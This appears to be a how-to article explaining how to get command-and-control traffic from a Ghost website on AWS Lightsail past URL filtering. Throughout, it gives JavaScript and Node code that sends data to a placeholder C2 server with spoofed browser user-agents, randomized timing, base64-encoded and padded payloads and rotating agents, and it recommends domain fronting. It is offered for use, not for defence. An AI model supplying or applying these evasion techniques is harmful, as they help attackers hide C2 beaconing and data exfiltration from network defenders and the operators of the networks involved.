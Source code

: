```yaml
---
title: "How to prevent URL filtering (C2) from blocking an AWS Lightsail Ghost website?"
date: "2024-12-14"
id: "how-to-prevent-url-filtering-c2-from-blocking-an-aws-lightsail-ghost-website"
---
```


alright, so you're dealing with url filtering on a ghost website hosted on lightsail, specifically related to command and control (c2) traffic, a classic problem. i've been down this road a few times, and it's never fun. it usually involves a dance of tweaking settings and hoping something sticks. the basic problem is that your outgoing requests are getting flagged, and the filter is shutting it down. we need to make those requests less suspicious.

my first experience with this kind of thing was back in 2016. i was setting up a small web service for a research project and we needed to send some very specific telemetry data to another server. this other server, which we controlled, was basically our c2 node. we kept getting blocked, and i spent a good 3 days figuring it out. i even thought about adding some image processing to just hide the data in pixel colors but that seemed a bit too ridiculous and not scaleable at all. i was pretty green back then, and it was brutal. it wasn't lightsail, but the principles are the same. the filters are looking for patterns. they don't care where your server is, just that it looks like it's doing something bad.

here’s the breakdown on how i usually tackle this:

**1. camouflage your requests:**

the default outgoing requests from a website can be pretty generic. they often use standard http headers and have predictable patterns. we need to make these look less like c2 communication and more like regular web traffic. a very simple starting point is tweaking the user-agent string. instead of using the ghost default, we’re gonna fake it like a normal web browser. it’s a really basic thing, but it's usually the starting point to bypass some less strict filters.

```javascript
// example: node.js (for ghost themes)
const https = require('https');

const options = {
  hostname: 'your-c2-server.com',
  port: 443,
  path: '/your/endpoint',
  method: 'POST',
  headers: {
    'user-agent': 'mozilla/5.0 (windows nt 10.0; win64; x64) applewebkit/537.36 (khtml, like gecko) chrome/91.0.4472.124 safari/537.36',
    'content-type': 'application/json'
  },
};

const req = https.request(options, (res) => {
    //...
});

req.write(JSON.stringify({ /* your data */ }));
req.end();
```
in this node.js snippet, i'm using a fake user-agent string that looks like a modern chrome browser. this won't fool everything, but it's a start. you'll need to adapt this to how your ghost theme handles outgoing requests, which might vary. if you are using javascript directly on the theme (which isn't something you should do on production) you could directly use fetch.
```javascript
fetch('https://your-c2-server.com/your/endpoint', {
    method: 'POST',
    headers: {
        'user-agent': 'mozilla/5.0 (windows nt 10.0; win64; x64) applewebkit/537.36 (khtml, like gecko) chrome/91.0.4472.124 safari/537.36',
        'content-type': 'application/json'
      },
    body: JSON.stringify({ /* your data */ }),
}).then(response => {
    //...
});
```
you should also be using https always, so no http here at all for the request. the content-type should be also modified to match the data type that you are sending.

**2. rate limiting and timing obfuscation:**

another thing that url filters often target are rapid, repetitive connections to the same endpoint. if your ghost site is constantly hammering the c2 server, it's going to look suspicious. the solution? rate limiting and adding some timing variance.
instead of doing requests inmediately you could introduce some delay in every request. in my past experience i actually had a cronjob that sent the data every 1 hour in a randomized minute after the hour. this helped a lot.

```javascript
// example: introducing delay in node.js
function delayedRequest(data){
    const delay = Math.floor(Math.random() * 60000); // random delay between 0 and 60 seconds in milisecs
    setTimeout(() => {
        // perform the http request here from the previous example
        //...
      }, delay);
}
delayedRequest({/*your data*/});
```
using `settimeout` we can introduce a randomized delay before the request is sent. doing this will add some random times to your traffic which will be much less suspicious than constant calls.

**3. data encoding and payloads:**

the data itself can be a red flag. if the payloads are structured in an easily recognizable format like typical c2 commands, you're going to get blocked. instead, you can encode data and make it less obvious. simple base64 encoding can be surprisingly effective, especially when coupled with slight alterations.
base64 is not actually encryption but this will make the traffic much more difficult to easily understand at a quick glance.

```javascript
// example: encoding and sending data in javascript
function sendData(data) {
  const encodedData = btoa(JSON.stringify(data)); // base64 encode
  fetch('https://your-c2-server.com/your/endpoint', {
    method: 'POST',
      headers: {
        'user-agent': 'mozilla/5.0 (windows nt 10.0; win64; x64) applewebkit/537.36 (khtml, like gecko) chrome/91.0.4472.124 safari/537.36',
          'content-type': 'text/plain' // set content type to 'text/plain'
        },
      body: encodedData, // send the encoded data
    }).then(response => {
      //...
    });
}
sendData({/*your data*/});
```
on the server side you'd need to decode this base64 data. do not try to do a reverse engineering attack on base64 using regexes, they do not always work. base64 is tricky and not so simple at all.

**4. domain fronting, a last resort**

domain fronting, while sometimes controversial, can be used when other techniques fail. domain fronting is when you make the requests to a domain that is different from your c2 server domain. so the filter only sees a request for a domain, but your actual traffic is going to your real domain. this technique is very powerful and not that hard to use but should be used as a last resort. i haven't used this much in recent times but in the past this helped me a lot. this was actually the core problem of my 2016 incident, i had the wrong domain on the request, i was an idiot then.

**5. general tips:**

*   **monitor your outgoing traffic:** use lightsail's monitoring tools to see if your requests are even getting out. it's the first step to confirm that the problem is in the filter and not in your code.
*   **test incrementally:** don't change everything at once. modify one thing and test before changing something else. this helps you to find the culprit faster.
*   **check server logs:** make sure that your c2 server is actually receiving requests.
*   **vary the payloads:** do not use the same data all the time, add some random data to it that has no actual meaning.
*   **rotate user agents:** use a pool of common user agents instead of the same one all the time.
*   **look at the filters logs:** sometimes the filters have logs that may give you a hint about why the requests are being blocked. not all filters have this kind of feature.
*   **do not do dumb things:** do not try to do a self-signed certificates for the c2, this is super suspicious. i've tried it, it does not work.

and a small joke: why was the javascript developer always calm? because he knew how to *handle* promises.

**resources:**

for a deep dive into network security and techniques like these, i recommend looking at:
*   "practical packet analysis" by chris sanders: it's an excellent resource for understanding network traffic and how filters work.
*   "applied cryptography" by bruce schneier: this book provides the essential understanding of cryptographic principles and it will give you some ideas on how to encode the data beyond the simple base64 encoding that i have shown.
*   rfc documents related to http, https and user-agent strings are your best source of truth, but usually reading them without a basic understanding is very difficult, so start from the books.

remember, this isn't a foolproof solution. url filters are constantly evolving, so it's a never-ending battle. the key is to make your traffic look as normal as possible and to avoid any patterns that stand out. always test incrementally and watch the logs. good luck, and if you're still hitting roadblocks, feel free to give some specific code examples of what your ghost site is doing, it will be easier for me to help you more.

